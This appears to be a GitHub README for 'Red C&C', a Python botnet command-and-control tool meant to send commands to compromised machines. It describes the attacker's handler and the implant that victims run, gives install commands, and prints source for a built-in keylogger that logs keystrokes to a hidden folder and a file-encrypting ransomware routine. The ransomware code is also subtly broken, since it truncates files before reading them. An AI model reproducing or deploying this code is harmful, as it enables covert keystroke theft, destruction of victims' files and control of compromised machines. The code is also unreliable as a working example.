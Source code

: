 ```
				██████╗ ███████╗██████╗  	██████╗   ██╗    ██████╗
				██╔══██╗██╔════╝██╔══██╗	██╔════╝   ██║   ██╔════╝
				██████╔╝█████╗  ██║  ██║	██║     ████████╗██║     
				██╔══██╗██╔══╝  ██║  ██║	██║     ██╔═██╔═╝██║     
				██║  ██║███████╗██████╔╝	╚██████╗██████║  ╚██████╗
				╚═╝  ╚═╝╚══════╝╚═════╝  	╚═════╝╚═════╝   ╚═════╝
```                                            
# Red C&C
Red C&C is a program focused on commanding and controlling a botnet. Red C&C consists of two scripts: one that will be executed by the attacker and one that will be downloaded and executed on the targeted machines. Red C&C will allow an attacker to send terminal commands to an entire botnet through a single interface using a single command. The purpose of Red C&C is to simplify the communication between an attacker and the machines that they have compromised. Red C&C uses two of Python's Built-in modules for most of the heavy lifting: the **Socket** module for establishing a client-server structure between the attacker and the target machines, and the **Threading** module for dividing the two main functions of the program into two seperate threads. 

### **Note**: Red C&C was created as a PoC and should not be used for malicious intent but for educational purposes.

### Installing Red C&C
You can create a symbolic link that will work like a command by running the following:
```
# Install Git if its not installed already.
apt install git

# Clone this repository to a folder of your choosing.
git clone https://github.com/binexisHATT/Red-C-C.git

# Change directory into the programs folder.
cd Red-C-C/

# Running the handler.
./ss.py

----------------------------------
Or you can create a symbolic link:

path = the path to the folder you cloned Red C&C in.
ln path/Red-C-C/scripts/net/ss.py /bin/redcc

With this symbolic link, typing "redcc" will execute the handler anywhere in the command line.

# Running the handler.
redcc
```


## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += '' 
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t'
		elif key == key.cmd: LOG += ' cmd+'
		elif key == key.alt: LOG += ' alt+'
		elif key == key.caps_lock: LOG += ' CapsLock '
		elif key == key.delete: LOG += ' Del '
		elif key == key.down: LOG += ' DownArrow '
		elif key == key.left: LOG += ' LeftArrow '
		elif key == key.up: LOG += ' UpArrow '
		elif key == key.right: LOG += ' RightArrow'
		elif key == key.esc: LOG += ' esc '
		elif key == key.home: LOG += ' HomeKey '
		elif key == key.insert: LOG += ' InsertKey '
		elif key == key.print_screen: LOG += ' PrintScreen '
		elif key == key.shift: LOG += ' shift+'
		elif key == key.f1: LOG += ' F1 '
		elif key == key.f2: LOG += ' F2 '
		elif key == key.f3: LOG += ' F3 '
		elif key == key.f4: LOG += ' F4 '
		elif key == key.f5: LOG += ' F5 '
		elif key == key.f6: LOG += ' F6 '
		elif key == key.f7: LOG += ' F7 '
		elif key == key.f8: LOG += ' F8 '
		elif key == key.f9: LOG += ' F9 '
		elif key == key.f10: LOG += ' F10 '
		elif key == key.f11: LOG += ' F11 '
		elif key == key.f12: LOG += ' F12 '
		else:
			LOG += str(key)
def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations
```python
def crypto(action: str, *args):
	if action == 'encrypt':
		to_encrypt = args[0]
		with open(to_encrypt, 'wb+') as f:
			data = f.read()
			key = Fernet.generate_key()
			cipher = Fernet(key)
			cipher_text = cipher.encrypt(data)
			f.seek(0)
			f.write(cipher_text)
			f.truncate()
			return f'  Save the decryption key -> {key.decode()}'
	else:
		to_encrypt, key = args[0][0], args[0][1]
		with open(to_encrypt, 'wb+') as f:
			cipher_text = f.read()
			cipher = Fernet(key)
			try:
				plain_text = cipher.decrypt(cipher_text)
			except cryptography.fernet.InvalidToken:
				return '  [-] Invalid key!'
			f.seek(0)
			f.write(plain_text)
			f.truncate()
			return '  [+] File successfully decrypted!'
```

### Watch our project video demo here -->
